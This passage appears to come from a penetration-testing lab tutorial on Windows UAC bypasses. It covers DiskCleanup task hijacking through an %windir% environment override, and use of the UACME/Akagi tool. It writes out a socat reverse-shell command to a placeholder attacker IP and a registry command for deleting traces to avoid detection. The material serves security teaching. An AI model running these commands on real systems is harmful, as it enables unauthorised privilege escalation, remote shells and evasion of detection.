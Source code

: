 
The task can be run on-demand, executing the following command when invoked:

 `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%`  as follows (without the quotes):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Where anything after the "REM" is ignored as a comment.


###   Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

### Automating UAC Bypasses

An excellent tool is available to test for UAC bypasses without writing your exploits from scratch. Created by @hfiref0x, UACME provides an up to date repository of UAC bypass techniques that can be used out of the box. The tool is available for download at its official repository on:

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

While UACME provides several tools, we will focus mainly on the one called Akagi, which runs the actual UAC bypasses. You can find a compiled version of Akagi under `C:\tools\UACME-Akagi64.exe`.


Using the tool is straightforward and only requires you to indicate the number corresponding to the method to be tested. A complete list of methods is available on the project's GitHub description. If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

Command Prompt

```shell-session
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\attacker>cd /tools

C:\tools>UACME-Akagi64.exe 33
```

The methods introduced through this room can also be tested by UACME by using the following methods:

|Method Id|Bypass technique|
|---|---|
|33|fodhelper.exe|
|34|DiskCleanup scheduled task|
|70|fodhelper.exe using CurVer registry key|